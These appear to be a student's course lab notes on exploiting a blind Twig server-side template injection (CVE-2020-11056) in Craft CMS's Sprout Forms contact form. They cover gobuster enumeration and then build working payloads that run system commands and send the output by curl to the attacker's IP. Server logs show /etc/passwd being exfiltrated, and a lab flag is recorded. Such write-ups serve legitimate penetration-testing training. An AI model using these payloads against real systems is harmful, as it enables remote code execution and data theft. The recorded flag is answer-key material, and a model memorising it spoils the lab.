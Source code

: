 #### 11.8.1. Accessing Craft CMS

```bash
kali@kali:~$ sudo mousepad /etc/hosts

kali@kali:~$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

192.168.50.105  craft
```

##### Labs
`Craft CMS`
![[Pasted image 20241029200645.png]]

---------

#### 11.8.2 Craft CMS with Sprout Forms - Discovery

Originally, the vulnerability `(CVE-2020-11056)` was discovered by Paweł Hałdrzyński and Daniel Kalinowski. This is an email template vulnerability, meaning we'll need a way to view the emails that we would receive from the application. We can find an SMTP catcher on port `8025` of the same host as our target.

Let's nevertheless attack this application from a black box perspective and start discovery as if we have no information about the target. We'll enumerate the application and find the required information to exploit the target.

We can start enumeration by visiting the site to view its contents.

![[Pasted image 20241029200853.png]]
The home page is minimal, displaying only a form to get in contact with the administrator. Let's inspect the source of the HTML for any clues about the target.
![[Pasted image 20241029201021.png]]
The source gives us two clues about the application. First, we find that the application is indeed running Craft CMS, based on the value of the CSRF token. Next, we find the use of brackets in the `name` attribute of the `input` field, which is a common (although not exclusive) feature of PHP applications.

Let's run gobuster to search for additional endpoints on the target. We'll provide it the common.txt wordlist from dirb and the URL of the application.

```bash
┌──(root💀gobots)-[30Oct2024 00:10:54]-[/home/kali]
└─# gobuster dir --wordlist /usr/share/wordlists/dirb/common.txt --url http://craft/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://craft/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.history             (Status: 403) [Size: 146]
/.cache               (Status: 403) [Size: 146]
/.bashrc              (Status: 403) [Size: 146]
/.cvsignore           (Status: 403) [Size: 146]
/.hta                 (Status: 403) [Size: 146]
/.config              (Status: 403) [Size: 146]
/.bash_history        (Status: 403) [Size: 146]
/.git/HEAD            (Status: 403) [Size: 146]
/.forward             (Status: 403) [Size: 146]
/.cvs                 (Status: 403) [Size: 146]
/.htaccess            (Status: 403) [Size: 146]
/.mysql_history       (Status: 403) [Size: 146]
/.listing             (Status: 403) [Size: 146]
/.listings            (Status: 403) [Size: 146]
/.ssh                 (Status: 403) [Size: 146]
/.htpasswd            (Status: 403) [Size: 146]
/.sh_history          (Status: 403) [Size: 146]
/.perf                (Status: 403) [Size: 146]
/.rhosts              (Status: 403) [Size: 146]
/.profile             (Status: 403) [Size: 146]
/.passwd              (Status: 403) [Size: 146]
/.web                 (Status: 403) [Size: 146]
/.subversion          (Status: 403) [Size: 146]
/.swf                 (Status: 403) [Size: 146]
/.svn/entries         (Status: 403) [Size: 146]
/.svn                 (Status: 403) [Size: 146]
/admin                (Status: 302) [Size: 0] [--> http://craft/admin/login]
```

By running gobuster, we discover three unique endpoints: /admin, /index, and /logout. However, /index, and /logout point to the home page that we've already reviewed. This leaves /admin as the only unique endpoint left that we have not reviewed. Let's navigate to it.

![[Pasted image 20241029201239.png]]
Upon visiting `/admin`, we are immediately redirected to log in. While we don't have credentials, we do find another confirmation that we are running Craft CMS.

With the application enumerated, let's attempt a more active attack. Outside of admin login, the only other user input we've discovered is on the home page. Let's attempt to send a valid message to the administrator.
![[Pasted image 20241029201704.png]]
With the message sent, let's open our inbox to check for any type of confirmation. We can find the mailbox at the same URL on port `8025`.
![[Pasted image 20241029201737.png]]
We confirm we received a message via email. Emails are great targets for SSTI since an email will commonly be comprised of mainly generic contents, but will be tailored to the user using some form of templating engine.

This is a PHP application, and a web search for "Craft templating" shows that Craft CMS uses Twig,[1](https://portal.offsec.com/courses/web-200-28380/learning/server-side-template-injection-discovery-and-exploitation-30963/craft-cms-with-sprout-forms-case-study-31282/craft-cms-with-sprout-forms-discovery-31078#fn-local_id_102-1) so we can assume that this form would also use Twig as the templating engine. Let's try to introduce a Twig template and observe the response. We'll use a payload that multiplies two numbers.
![[Pasted image 20241029202023.png]]

```php
{{5*5}}
```
When we click _Submit_, the application responds normally, but when we check our inbox, we find no email. Initially, this seems like a mistake, but if we send the payload again, we observe the same result. This must mean that the template injection is causing an error somewhere. We might be dealing with a blind SSTI. In order to know if the template is being executed, let's try to change the payload to something that will produce a response. Since we can't review the output, we'll need some form of out-of-band communication. For example, if we can get the templating engine to return a curl request to us, we can prove that the templating engine is rendering our payload and system commands are being executed.

Let's use the _reduce_ filter to execute the _system_ command. We'll pass a curl command to our Kali IP.

```php
{{[0]|reduce('system','curl http://192.168.45.222/helloFromTheOtherSide')}}
```
![[Pasted image 20241029202446.png]]
![[Pasted image 20241029202500.png]]

Excellent! We now have command execution on the target. Unfortunately, without the response, the command execution won't be very useful. However, we _can_ create a payload that executes a command and exfiltrates the data back to us.

--------

#### 11.8.3. Craft CMS with Sprout Forms - Exploitation

Let's use the Twig template sandbox to develop the payload, since we can develop the payload more quickly in an interactive session than via trial-and-error using a blind SSTI.

![[Pasted image 20241029210139.png]]
We'll start the payload with the curl request we already sent, so the command output will be exfiltrated back to our server. Let's modify this payload to concatenate, or join, some data to the request. Reviewing the Twig documentation, we find that concatenation in Twig is done via the tilde (~) character.[1](https://portal.offsec.com/courses/web-200-28380/learning/server-side-template-injection-discovery-and-exploitation-30963/craft-cms-with-sprout-forms-case-study-31282/craft-cms-with-sprout-forms-exploitation-31065#fn-local_id_261-1) Let's name the variable we are concatenating _exfil_.

```php
{{[0]|reduce('system','curl http://192.168.45.222/?exfil=' ~ exfil)}}
```

When we review our Python HTTP server log, we find a request with the _exfil_ parameter.
![[Pasted image 20241029210402.png]]
Since we don't have the _exfil_ variable set, its value is empty. Let's work on setting this variable next. We'll have to URL-encode any data that we send to ensure that it can be sent accurately. Conveniently for us, Twig provides a URL encoding filter by default.[2](https://portal.offsec.com/courses/web-200-28380/learning/server-side-template-injection-discovery-and-exploitation-30963/craft-cms-with-sprout-forms-case-study-31282/craft-cms-with-sprout-forms-exploitation-31065#fn-local_id_261-2) We'll use a statement to set a variable to a string and pass it through the _url_encode_ filter.

```php
{% set exfil = "Hello & Goodbye"| url_encode %}
{{[0]|reduce('system','curl http://192.168.45.222/?exfil=' ~ exfil)}}
```
We'll type the highlighted string in Listing 54 into our sandbox environment. When we view the HTTP server log, we can find the encoded message.
![[Pasted image 20241029210747.png]]
At this point, all that's left is to execute the command we want and replace the message in Listing 54 with the output of the command.

To execute a command and set the variable, we'll use the _set_ tag to save the entire multi-line output of the command.[3](https://portal.offsec.com/courses/web-200-28380/learning/server-side-template-injection-discovery-and-exploitation-30963/craft-cms-with-sprout-forms-case-study-31282/craft-cms-with-sprout-forms-exploitation-31065#fn-local_id_261-3) We'll call this variable _output_. In the tag, we'll execute the command we want. Let's start with whoami first and later cat out /etc/passwd in Craft.

```php
{% set output %}
{{[0]|reduce('system','whoami')}}
{% endset %}

{% set exfil = output| url_encode %}
{{[0]|reduce('system','curl http://192.168.45.222/?exfil=' ~ exfil)}}
```

![[Pasted image 20241029210936.png]]
When we place the template in Listing 56 into our sandbox, we will find the output is logged on our HTTP server.
![[Pasted image 20241029210949.png]]
With the payload built, let's copy and paste it into the contact form and review the output. This time, however, we'll change the command to display `/etc/passwd`.

When we click _Submit_, we receive a log in our HTTP server with the contents of the `/etc/passwd file`.

```bash
┌──(root💀gobots)-[30Oct2024 00:12:04]-[/home/kali]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.233.105 - - [30/Oct/2024 00:23:37] code 404, message File not found
192.168.233.105 - - [30/Oct/2024 00:23:37] "GET /helloFromTheOtherSide HTTP/1.1" 404 -
192.168.233.105 - - [30/Oct/2024 01:03:34] "GET /?exfil= HTTP/1.1" 200 -
192.168.233.105 - - [30/Oct/2024 01:07:35] "GET /?exfil=Hello%20%26%20Goodbye HTTP/1.1" 200 -
192.168.233.105 - - [30/Oct/2024 01:09:13] "GET /?exfil=%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A HTTP/1.1" 200 -
192.168.233.105 - - [30/Oct/2024 01:10:56] "GET /?exfil=%3Cbr%20%2F%3E%0Aroot%3Ax%3A0%3A0%3Aroot%3A%2Froot%3A%2Fbin%2Fash%0Abin%3Ax%3A1%3A1%3Abin%3A%2Fbin%3A%2Fsbin%2Fnologin%0Adaemon%3Ax%3A2%3A2%3Adaemon%3A%2Fsbin%3A%2Fsbin%2Fnologin%0Aadm%3Ax%3A3%3A4%3Aadm%3A%2Fvar%2Fadm%3A%2Fsbin%2Fnologin%0Alp%3Ax%3A4%3A7%3Alp%3A%2Fvar%2Fspool%2Flpd%3A%2Fsbin%2Fnologin%0Async%3Ax%3A5%3A0%3Async%3A%2Fsbin%3A%2Fbin%2Fsync%0Ashutdown%3Ax%3A6%3A0%3Ashutdown%3A%2Fsbin%3A%2Fsbin%2Fshutdown%0Ahalt%3Ax%3A7%3A0%3Ahalt%3A%2Fsbin%3A%2Fsbin%2Fhalt%0Amail%3Ax%3A8%3A12%3Amail%3A%2Fvar%2Fmail%3A%2Fsbin%2Fnologin%0Anews%3Ax%3A9%3A13%3Anews%3A%2Fusr%2Flib%2Fnews%3A%2Fsbin%2Fnologin%0Auucp%3Ax%3A10%3A14%3Auucp%3A%2Fvar%2Fspool%2Fuucppublic%3A%2Fsbin%2Fnologin%0Aoperator%3Ax%3A11%3A0%3Aoperator%3A%2Froot%3A%2Fsbin%2Fnologin%0Aman%3Ax%3A13%3A15%3Aman%3A%2Fusr%2Fman%3A%2Fsbin%2Fnologin%0Apostmaster%3Ax%3A14%3A12%3Apostmaster%3A%2Fvar%2Fmail%3A%2Fsbin%2Fnologin%0Acron%3Ax%3A16%3A16%3Acron%3A%2Fvar%2Fspool%2Fcron%3A%2Fsbin%2Fnologin%0Aftp%3Ax%3A21%3A21%3A%3A%2Fvar%2Flib%2Fftp%3A%2Fsbin%2Fnologin%0Asshd%3Ax%3A22%3A22%3Asshd%3A%2Fdev%2Fnull%3A%2Fsbin%2Fnologin%0Aat%3Ax%3A25%3A25%3Aat%3A%2Fvar%2Fspool%2Fcron%2Fatjobs%3A%2Fsbin%2Fnologin%0Asquid%3Ax%3A31%3A31%3ASquid%3A%2Fvar%2Fcache%2Fsquid%3A%2Fsbin%2Fnologin%0Axfs%3Ax%3A33%3A33%3AX%20Font%20Server%3A%2Fetc%2FX11%2Ffs%3A%2Fsbin%2Fnologin%0Agames%3Ax%3A35%3A35%3Agames%3A%2Fusr%2Fgames%3A%2Fsbin%2Fnologin%0Acyrus%3Ax%3A85%3A12%3A%3A%2Fusr%2Fcyrus%3A%2Fsbin%2Fnologin%0Avpopmail%3Ax%3A89%3A89%3A%3A%2Fvar%2Fvpopmail%3A%2Fsbin%2Fnologin%0Antp%3Ax%3A123%3A123%3ANTP%3A%2Fvar%2Fempty%3A%2Fsbin%2Fnologin%0Asmmsp%3Ax%3A209%3A209%3Asmmsp%3A%2Fvar%2Fspool%2Fmqueue%3A%2Fsbin%2Fnologin%0Aguest%3Ax%3A405%3A100%3Aguest%3A%2Fdev%2Fnull%3A%2Fsbin%2Fnologin%0Anobody%3Ax%3A65534%3A65534%3Anobody%3A%2F%3A%2Fsbin%2Fnologin%0Awww-data%3Ax%3A82%3A82%3ALinux%20User%2C%2C%2C%3A%2Fhome%2Fwww-data%3A%2Fsbin%2Fnologin%0Autmp%3Ax%3A100%3A406%3Autmp%3A%2Fhome%2Futmp%3A%2Fbin%2Ffalse%0Anginx%3Ax%3A101%3A101%3Anginx%3A%2Fvar%2Flib%2Fnginx%3A%2Fsbin%2Fnologin%0Anginx%3Ax%3A101%3A101%3Anginx%3A%2Fvar%2Flib%2Fnginx%3A%2Fsbin%2Fnologin%3Cbr%20%2F%3E%0A HTTP/1.1" 200 -
```
Let's decode this response in Burp Suite to receive the contents in a readable format. We'll click on the _Decoder_ tab of Burp Suite and paste the response into the text box.

![[Pasted image 20241029211402.png]]
Next, we'll click the _Decode as ..._ drop-down and select _URL_.
![[Pasted image 20241029211414.png]]
Once the process completes, we should receive a decoded version of our response.
![[Pasted image 20241029211354.png]]
Excellent! We can now execute any command and retrieve the output.

----------
##### Labs
`OS{SvezeAmputiranaRukaSatrijanija}`
![[Pasted image 20241029212240.png]]
Payload
```php
{% set output %}
{{[0]|reduce('system','cat /flag.txt')}}
{% endset %}

{% set exfil = output| url_encode %}
{{[0]|reduce('system','curl http://192.168.45.222/?exfil=' ~ exfil)}}
```
Website where it was inserted
![[Pasted image 20241029212041.png]]
python server
![[Pasted image 20241029212115.png]]
URL Decoder
![[Pasted image 20241029212140.png]]

